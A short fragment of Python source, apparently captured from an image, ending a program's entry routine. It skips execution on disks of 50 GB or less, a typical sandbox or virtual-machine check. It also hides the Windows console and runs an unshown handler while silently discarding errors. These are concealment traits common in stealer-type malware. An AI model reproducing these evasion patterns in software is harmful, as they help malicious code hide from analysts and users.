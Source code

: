        if int(str(psutil.disk_usage('/')[0] / 1024 ** 3).split(".")[0]) <= 50: return
    if config['hideconsole']: ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 0)
    try: handler()
    except Exception: pass

ticks.starttime = time.time()
if __name__ == "__main__": stabilizeTicks()

